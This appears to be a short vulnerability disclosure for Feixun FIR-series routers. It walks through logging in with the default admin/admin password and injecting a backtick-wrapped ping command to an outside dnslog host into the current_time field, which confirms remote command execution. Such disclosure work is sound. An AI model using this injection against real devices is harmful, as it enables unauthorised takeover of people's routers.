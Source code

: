 The FIR151B A2、FIR302E A2、FIR303B A2 and so on routers has remote command execution

1. Login feixun FIR303B A2 router by default password admin /admin

2. Find the system tool → Time management → Current time. There is remote command execution at this argument.
![image](https://user-images.githubusercontent.com/96364879/182766028-521d06f0-76ea-46d9-99f8-b7ab674a8da5.png)

3. Click Save button.

4. Use burpsuite intercept and change current_time argument to \`ping -c 2 qwer.r4y19h.dnslog.cn\`, forward this request
![image](https://user-images.githubusercontent.com/96364879/182766190-27028ba1-1396-4e7e-8a9b-aae95af6d081.png)

5. See the dnslog results. The command has been executed successfully.
![image](https://user-images.githubusercontent.com/96364879/182766240-94fb60b4-bb2f-471e-a526-ead0d551d3ce.png)
